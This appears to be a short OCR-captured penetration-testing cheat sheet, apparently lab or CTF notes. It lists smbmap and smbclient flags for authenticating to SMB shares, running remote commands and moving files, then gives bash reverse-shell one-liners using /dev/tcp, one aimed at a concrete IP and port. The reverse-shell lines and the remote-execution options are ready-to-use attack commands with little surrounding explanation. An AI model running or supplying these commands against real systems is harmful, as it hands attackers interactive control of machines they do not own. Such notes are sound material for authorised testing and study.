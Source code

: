### Smbmap

```txt
smbmap -u <user> -p <pass> -H 10.10.10.10 -x ipconfig

-u <user>	set the username
-p <pass>	set the password
-H <host>	set the host
-x <cmd>	run command on the server
-s <dir>	specify the share to enumerate
-d <dmn>	specify the domain to enumerate
--download	download a file
--upload	upload a file
```

### Smbclient

```txt
smbclient <host>

-L list available services on the server
-W	specify workgroup
-I	specify host's ip adresse
-c cmd	run command on the target machine
-U user	specify the username to authenticate with
-P pass	specify the password to authenticate with
-N	not use a password
get file	download file
mget mask	downlaod files matching the mask
put file	upload file
mput mask upload all files matching the mask to current working directory
```

Due to shell restrictions, you will need to escape the backslashes for the host.

## Reverse shell

### Linux

```bash
bash -i >& /dev/tcp/ip_addr/port 0>&1

-i interactive shell
```

```bash
bash -i >& /dev/tcp/10.9.173.10/1338 0>&1
```

```txt
>& file ~ >file 2>&1

&x : indicate that x is a file discriptors
0 : stdin
1 : stdout
2 : stderr
```
